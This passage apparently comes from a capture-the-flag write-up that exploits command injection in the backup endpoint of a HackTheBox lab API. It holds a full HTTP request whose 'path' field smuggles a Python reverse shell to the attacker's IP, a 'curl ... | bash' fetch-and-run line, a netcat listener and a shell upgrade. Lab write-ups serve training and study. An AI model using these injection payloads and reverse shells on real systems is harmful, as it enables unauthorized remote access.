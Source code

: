 ![image-20230301141328847](https://0xdfimages.gitlab.io/img/image-20230301141328847.png)

It is important to have the trailing `;` at the end or else it doesn’t work.
Likely the box is adding something to the end that leads to an error, but the
semicolon just pushes that to the next command.

#### Shell

There are a few things I’ll try that don’t work, including:

  * a basic [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in directly in the request;
  * base64 encoding that shell and echoing it to decode and then piping into `bash`;
  * trying `curl 10.10.14.6/shell.sh | bash` (no connection at my webserver).

The site could be running in a Docker container with very limited commands. I
know that the host does have Python, so I’ll grab a one-liner from
[revshells.com](https://www.revshells.com/) (“Python3 shortest”) and drop it
in:

    
    
    POST /admin/backup HTTP/1.1
    Host: api.mentorquotes.htb
    Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
    Accept: application/json
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://api.mentorquotes.htb/docs
    Origin: http://api.mentorquotes.htb
    Connection: close
    Content-Type: application/json
    Content-Length: 152
    
    {"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.6\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}
    

On sending this, I get a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.193 40268
    /app #
    

I’ll do a shell upgrade here:

    
    
    /app # ^Z              
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    /app # ls
    Dockerfile        app               python            requirements.txt
    /app # 
    
